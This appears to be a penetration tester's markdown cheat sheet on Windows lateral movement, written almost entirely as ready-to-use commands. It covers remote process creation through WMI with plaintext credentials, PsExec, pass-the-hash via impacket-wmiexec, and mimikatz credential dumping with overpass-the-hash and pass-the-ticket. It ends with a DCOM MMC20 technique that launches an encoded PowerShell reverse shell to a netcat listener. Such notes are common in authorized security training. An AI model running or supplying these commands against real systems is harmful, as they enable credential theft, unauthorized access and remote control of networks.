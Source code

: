 ## WMI and WinRM
To do this, you will need the credentials of someone in Administrators local group
```
Creating PSCredential Object in Powershell
$username='user';
$password='password';
$secureString= ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
-------------------------------------------------------------
Creating a CimSession
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName $targetip -Credential $credential -SessionOption $Options
$command = (replace this with output of encode.py)
-------------------------------------------------------------
Invoking WMI session
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
-------------------------------------------------------------
What is encode.py?
Located in ~/Documents/tools
It is a powershell payload
CHANGE THE IP BEFORE EXECUTING THE SCRIPT FOR $command
```
## PsExec (within sysinternals suite)
Requirements to do this:
1. Target User should be part of Administrators local group
2. Must have credentials for target user
```
.\PsExec64.exe -i  \\[hostname] -u [domain\user] -p [password] cmd
```
## Pass The Hash
Requirements to do this:
1. Requires SMB connection through firewall
2. Requires admin share to be available (means the user must be a local admin)
```
/usr/biimpacket-wmiexec -hashes :[NTLMHash] [user]@$ip
```
## Overpass the Hash
Allows us to get a full Kerberos TGT to get a TGS
```
First, we need to get the NTLM Hash of the target user
Run a process as the target user to get the cached hashes using mimikatz

In mimikatz,
sekurlsa::logonpasswords (to get the hash)
sekurlsa::credman (https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/credman)
sekurlsa::pth /user:[user] /domain:[domain] /ntlm:[ntlmhash] /run:powershell

net use \\[target to lateral move]
cd C:\tools\SysinternalsSuite\
.\PsExec.exe \\[target to lateral move] cmd
```
## Pass the Ticket
```
Run mimikatz as administrator
privilege::debug
sekurlsa::tickets /export

Inspect the tickets to determine which ticket to use to inject into process memory

Exit mimikatz and dir *.kirbi
Pick the ticket to conduct lateral movement and run mimikatz again
kerberos::ptt [the ticket]

exit mimikatz and run klist to verify
```
## DCOM
```
Firstly, we need to initiate the MMC Application in Powershell
$dcom =[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$ip"))

Use encode.py to get a reverse shell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"encode.py code","7")

start nc -nvlp 443 on kali
```